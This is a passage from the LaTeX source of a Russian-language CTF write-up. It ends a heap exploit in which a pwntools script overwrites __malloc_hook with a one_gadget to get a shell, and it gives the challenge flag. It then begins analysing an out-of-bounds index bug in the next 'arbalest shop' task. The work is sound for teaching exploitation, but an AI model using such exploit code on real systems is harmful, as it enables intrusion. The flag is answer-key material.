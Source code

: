 \documentclass[idxtotoc,hyperref,openany,oneside]{files/pwn} %
\begin{document}
\begin{lstlisting}[language=Python, caption=Куча кода]
    # Write one_gadget to __malloc_hook
    create_list() # idx 2
    add_anime(2, b"\x00" * 19 + p64(libc_base + one_shots[3]), 
    		b"kekw", 1337)
    print("[+] Write one_gadget successfully")

    # Invoke shell
    r.sendlineafter(b"> ", b"3")
    r.sendlineafter(b": ", b"2")
    r.interactive()


if __name__ == "__main__":
    exploit()
\end{lstlisting}

И получаем флаг \verb|oren_ctf_PetitPotam!|




\textbf{Теги:} ELF 64 bit, C, Buffer overflow, heap\vspace{\baselineskip}

\begin{tcolorbox}
Открылся новый магазин по продаже арбалетов!

nc ctf-edu-t.orb.ru 33063
\end{tcolorbox}

Таска опять является вариацией предыдущей. В этот раз произошли изменения, которые можно назвать как и усложнением, так и упрощением. Усложняется общее понимание бинаря, если впервые столкнуться со статически слинкованным, но упрощается эксплуатация. Но по сути все остается аналогично предыдущей задаче. Итак, перед нами опять достаточно стандартное меню, где опять можно создавать и удалять примитивы в виде арбалетов.
Разбирать все опять не будем, более того, так как похоже на предыдущую задачу сразу пеерйдем к сути.

Во-первых, в функции \verb|sell_arbalest()|, при добавлении нового арбалета (также как и в функции \verb|insert_in_list()|) не проверяется выход за границы индекса 
\verb|g_list_index|. Это дает возможность переполнить глобальный буфер на куче и, таким образом, писать вниз .bss. Но писать мы можем только структуру, что немного усложняет задачу по сравнению с обычным переполнением.
\end{document}
